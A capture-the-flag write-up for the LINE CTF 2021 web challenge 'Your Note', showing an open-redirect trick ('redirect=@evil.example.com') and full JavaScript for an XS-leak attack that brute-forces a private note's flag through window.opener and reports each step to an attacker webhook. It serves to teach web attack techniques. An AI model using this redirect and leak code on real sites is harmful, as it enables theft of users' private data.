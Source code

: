 # LINE CTF 2021 - Web - Your Note

## Problem

> Secure private note service<br>
> ※ Admin have disabled some security feature of their browser...
>
> Flag Format: LINECTF{[a-z0-9-]+}
>
> http:// 34.84.243.202<br>
> http:// 35.200.11.35 (mirror)<br>
> http:// 34.84.72.167 (mirror)

## Solution

### Step 1. Redirect to an arbitrary URL

The login API is as follows:
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    url = request.args.get('redirect')
    if url:
        url = app.config.get('BASE_URL') + url
        if current_user.is_authenticated:
            return redirect(url)

    if request.method == 'POST':
        # -- snip --

    elif request.method == 'GET':
        return render_template('login.html')
```

This API provides a redirect to `app.config.get('BASE_URL') + request.args.get('redirect')`, where `BASE_URL = f"http://{APP_HOST}"`.

Then, if we send `http://34.84.72.167/login?redirect=@evil.example.com` to the bot, the redirect url is `http://{APP_HOST}@evil.example.com`. So, we can make the bot redirect to an arbitary URL because `{APP_HOST}` is interpreted as a user name in the URL.

### Step 2. Specify the flag with `window.opener`

A part of `crawler.js` is as follows:
```javascript
        /* -- snip -- */

        const browser = await puppeteer.launch({
            args: [
                '--no-sandbox',
                '--disable-popup-blocking',
            ],
            headless: true,
        });
        const page = await browser.newPage();

        /* -- snip -- */
```

The `--disable-popup-blocking` option enables us to use `window.open`.

So, I prepared the following attack server:

- `index.html`:
    ```html
    <script>
      window.open("evil.html");
    </script>
    ```
- `empty.html`:
    ```html

    ```
- `evil.html`
    ```html
    <script>
    const url = "http://34.84.72.167";
    const webhook = "https://{{ ... }}";
    const chars = "}-abcdefghijklmnopqrstuvwxyz0123456789";
    const sleep = (ms) => new Promise((r) => setTimeout(r, ms));

    const main = async () => {
      await sleep(200);

      window.open(`${webhook}/ping`);

      let prefix = "LINECTF{";

      while (true) {
        if (prefix.endsWith("}")) {
          break;
        }
        window.open(`${webhook}/prefix/${prefix}`);

        await sleep(200);
        let exists = false;
        for (const c of chars) {

          window.opener.location.href = `/empty.html`;
          await sleep(200);
          window.opener.location.href = `${url}/search?q=${prefix + c}&download`;
          await sleep(500);

          try {
            console.log(window.opener.document.body.textContent);
            prefix += c;
            exists = true;
            break;
          } catch (e) { }
        }
        if (!exists) {
          window.open(`${webhook}/fail/${prefix}`);
          return;
        }
      }
      window.open(`${webhook}/success/${prefix}`);
    };
    main();
    </script>
    ```

If a user who has a note with a flag `LINECTF{[a-z0-9-]+}` accesses `index.html`, the flag is leaked in order from the first character. This is a XS-leak attack with Cross-Origin-Opener-Policy.

This attack was successful in my local environment. However, unfortunately, because the problem server was unstable, I got the flag by adjusting the sleep times and saving the search range at that point :(
